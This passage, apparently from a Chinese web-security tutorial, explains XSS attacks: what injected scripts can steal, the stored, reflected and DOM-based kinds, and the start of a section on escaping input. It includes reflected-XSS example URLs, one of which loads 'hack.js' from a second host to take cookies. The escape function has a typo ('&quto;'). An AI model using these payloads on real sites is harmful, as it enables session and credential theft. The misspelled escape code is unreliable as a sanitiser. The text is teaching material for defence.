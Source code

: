 

## XSS 攻击

XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
如果页面被注入了恶意 JavaScript 脚本，恶意脚本都能做哪些事情。

- **可以窃取 Cookie 信息**。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
- **可以监听用户行为**。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
- 可以通过修改 DOM 伪造假的登录窗口，用来**欺骗用户输入用户名和密码等信息**。
- 还可以在页面内**生成浮窗广告**，这些广告会严重地影响用户体验。

### 恶意脚本是怎么注入的

#### **存储型 XSS 攻击**

黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；

#### **反射型 XSS 攻击**

在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户

```js
// 普通 
http://localhost:3000/?from=china
// alert尝试 
http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
// 短域名伪造 https://dwz.cn/
```

#### **基于 DOM 的 XSS 攻击**

具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

### 如何阻止 XSS 攻击

1. **服务器对输入脚本进行过滤或转码**

   - 黑名单

   ```js
     function escape(str) {    
         str = str.replace(/&/g, '&amp;')    
         str = str.replace(/</g, '&lt;')    
         str = str.replace(/>/g, '&gt;')    
         str = str.replace(/"/g, '&quto;')    
         str = str.replace(/'/g, '&#39;')    
         str = str.replace(/`/g, '&#96;')    
         str = str.replace(/\//g, '&#x2F;')    
         return str  
     }
   ```
